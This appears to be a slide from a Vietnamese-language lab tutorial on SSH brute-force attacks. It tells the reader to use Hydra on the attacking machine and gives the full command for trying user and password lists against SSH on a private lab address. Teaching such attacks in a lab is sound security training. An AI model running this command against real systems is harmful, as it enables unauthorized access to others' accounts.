

Bước 2: Thực hiện tấn công SSH Brute Force
Trên máy tấn công:
Dùng Hydra để thử nhiều user và mật khẩu:

hydra -L users.txt -P passwords.txt 192.168.198.132 ssh